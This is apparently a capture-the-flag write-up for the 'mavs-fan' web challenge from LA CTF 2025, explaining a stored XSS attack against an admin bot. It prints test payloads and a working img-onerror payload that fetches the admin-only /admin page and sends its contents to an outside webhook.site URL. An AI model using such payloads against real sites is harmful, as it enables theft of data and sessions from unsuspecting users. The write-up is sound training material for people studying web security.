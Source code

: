 # mavs-fan

## Background

Just a Mavs fan trying to figure out what Nico Harrison cooking up for my team nowadays...<br>
Hint - You can send a link to your post that the admin bot will visit. Note that the admin cookie is HttpOnly!<br>
Site - mavs-fan.chall.lac.tf<br>
Admin Bot - https://admin-bot.lac.tf/mavs-fan

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image.png)

- **Difficulty: Easy**
- **This challenge has source code: [mavs-fan.zip](https://github.com/vodanh1903/CTF-Writeups/blob/main/LA-CTF-2025/Web/mavs-fan/mavs-fan.zip)**

## Enumeration

Index page:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-1.png)

In this page, we have an input field and this challenge has an admin bot, so it's could be an client-side vulnerability. But first I will give it some input to see how it processes:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-2.png)

Click `Send Message` and it will redirect us to another page, which contains a post and our input:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-3.png)

Okay, so I will try to exploit XSS by giving it a simple payload for testing XSS `<script>alert(1)</script>`, click `Send Message`:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-4.png)

Hmm, it seems like my payload doesn't work. I will inspect this page to see if it has filtered my payload:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-5.png)

Oh, my payload is still on the page and it seems not to be sanitized. So the payload may be successfully executed but the backend somehow handles it so it won't show to the client. Then I will test a payload with `img` tag to see if it's executed before looking through the source code. My payload: `<img src=x onerror="alert(1)"/>`.<br>

Explain about the payload:<br>
1. We will use the `img` tag with `src` attribute and `onerror` attribute. 
2. The `src=x` will cause an error because the `x` doesn't exist, and when an error appears, the `onerror="alert(1)"` get executed.<br>

The result when I send the payload:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-6.png)

The payload works! Now, I need to look for the source code to see where and how I can read the flag.<br>
> Reading the source code, Idk why the `script` tag can't be executed cause I see no filter apllied on our input, maybe the web page has WAF which blocks the `script` tag or am I missing something???

In `app.js`, we can see that the flag is located at the endpoint `/admin`:

```js
[...]
app.get('/admin', (req, res) => {
    if (!req.cookies.secret || req.cookies.secret !== ADMIN_SECRET) {
        return res.redirect("/");
    }
    return res.json({ trade_plan: FLAG });
});
[...]
```

To read the flag, we need the cookie of the admin and we have the admin bot!.

## Exploitation

So, the idea is:
1. We let the admin bot read the content of endpoint `/admin`
2. We will make the bot send the content to our domain ( I will use [webhooks.site](https://webhook.site/) ), so we can read the flag!<br>

This is my payload for this challenge: `<img src="x" onerror="fetch('https://mavs-fan.chall.lac.tf/admin') .then(res => res.text()) .then(data => { fetch('https://webhook.site/273fb9ed-bb43-424f-b0b9-ceed3f8c3d22/?d='+encodeURIComponent(data)); });" />`.<br>

Explain about the payload:
1. First, we will use `img` tag to execute XSS which I've explained above.
2. When the `onerror` is loaded, we will make the bot read the content of the endpoint `/admin` through [`fetch()`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API).
3. Then, we will use [`then()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then) to handle the data, the content of the endpoint `/admin` will be assigned to `res` and then it can be read through `res.text()`.
4. Next, we will use `then()` again and assign `res.text()` to `data` and make the bot send the `data` to our webhook through `d` parameter with `fetch()`. (Remember to use [`encodeURIComponent()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/encodeURIComponent) if you want to dynamically assemble string values into a URL)<br>

Back to the exploitation, we will save this payload to a post like we did before:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-7.png)

Next, we will send the url to our post to the admin bot, so it will read the post and then the payload will be executed:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-8.png)

Click `Submit` and we should receive the flag on our webhook:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-9.png)

- **Flag: `lactf{m4yb3_w3_sh0u1d_tr4d3_1uk4_f0r_4d}`**

## Conclusion

What we've learned:

1. Cross-site Scripting (XSS)